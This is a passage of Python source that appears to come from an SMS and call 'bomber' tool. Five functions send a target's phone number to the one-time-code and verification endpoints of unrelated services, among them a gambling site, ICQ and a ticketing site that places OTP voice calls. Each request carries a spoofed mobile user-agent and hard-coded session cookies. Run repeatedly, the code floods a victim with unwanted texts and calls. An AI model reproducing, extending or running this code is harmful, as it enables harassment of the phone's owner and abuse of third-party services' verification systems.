 #OTP_SMS

def api104(phone):

    post("https://www.vegas77slots.com/auth/send_otp",data=f"phone={phone}&otp=&password=&bank=&bank_number=&full_name=&ref=21076",headers={"content-type": "application/x-www-form-urlencoded","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","cookie": "vegas77slots=pj5kj4ovnk2fao1sbaid2eb76l1iak7b"})

#privacy

def api105(phone):

    post("https://ipro356.com/wp-content/themes/hello-elementor/modules/index.php",data=f"method=wpRegisterotp&otp_tel={phone}",headers={"content-type": "application/x-www-form-urlencoded; charset=UTF-8","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","cookie": "PHPSESSID=vtacuje1no166kkp4d40nolak5"})

#kaspy

def api106(phone):

    post("https://kaspy.com/sms/sms.php/",data=f"phone={phone}",headers={"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8","User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","Cookie": "PHPSESSID=2i484jdb1pie5am071cveupme5; mage-cache-storage=%7B%7D; mage-cache-storage-section-invalidation=%7B%7D; mage-cache-sessid=true; form_key=rUt4Q17TiRlUfgKz; _ga=GA1.2.1486915122.1646803642; _gid=GA1.2.1348564830.1646803642; _fbp=fb.1.1646803643605.1538052508; mage-messages=; recently_viewed_product=%7B%7D; recently_viewed_product_previous=%7B%7D; recently_compared_product=%7B%7D; recently_compared_product_previous=%7B%7D; product_data_storage=%7B%7D; smartbanner_exited=1; __atuvc=2%7C10; __atuvs=62283aaa77850300001; _gat=1; private_content_version=382c8a313cac3cd587475c1b3693672e; section_data_ids=%7B%22cart%22%3A1646803701%2C%22customer%22%3A1646803701%2C%22compare-products%22%3A1646803701%2C%22last-ordered-items%22%3A1646803701%2C%22directory-data%22%3A1646803701%2C%22captcha%22%3A1646803701%2C%22instant-purchase%22%3A1646803701%2C%22persistent%22%3A1646803701%2C%22review%22%3A1646803701%2C%22wishlist%22%3A1646803701%2C%22chatData%22%3A1646803701%2C%22recently_viewed_product%22%3A1646803701%2C%22recently_compared_product%22%3A1646803701%2C%22product_data_storage%22%3A1646803701%2C%22paypal-billing-agreement%22%3A1646803701%2C%22messages%22%3A1646803708%7D"})

def api107(phone):

    post("https://u.icq.net/api/v65/rapi/auth/sendCode", headers={"User-Agent": useragent}, json={"reqId":"39816-1633012470","params":{"phone": f"+66{phone[1:]}","language":"en-US","route":"sms","devId":"ic1rtwz1s1Hj1O0r","application":"icq"}})

def call1(phone):

    post("https://www.theconcert.com/rest/request-otp",json={"mobile":phone,"country_code":"TH","lang":"th","channel":"call","digit":4},headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","cookie": "_gcl_au=1.1.708266966.1646798262;_fbp=fb.1.1646798263293.934490162;_gid=GA1.2.1869205174.1646798265;__gads=ID=3a9d3224d965d1d5-2263d5e0ead000a6:T=1646798265:RT=1646798265:S=ALNI_MZ7vpsoTaLNez288scAjLhIUalI6Q;_ga=GA1.2.2049889473.1646798264;_gat_UA-133219660-2=1;_ga_N9T2LF0PJ1=GS1.1.1646798262.1.1.1646799146.0;adonis-session=a5833f7b41f8bc112c05ff7f5fe3ed6fONCSG8%2Fd2it020fnejGzFhf%2BeWRoJrkYZwCGrBn6Ig5KK0uAhDeYZZgjdJeWrEkd2QqanFeA2r8s%2FXf7hI1zCehOFlqYcV7r4s4UQ7DuFMpu4ZJ45hicb4xRhrJpyHUA;XSRF-TOKEN=aacd25f1463569455d654804f2189bc77TyRxsqGOH%2FFozctmiwq6uL6Y4hAbExYamuaEw%2FJqE%2FrWzfaNdyMEtwfkls7v8UUNZ%2BFWMqd9pYvjGolK9iwiJm5NW34rWtFYoNC83P0DdQpoiYfm%2FKWn1DuSBbrsEkV"})
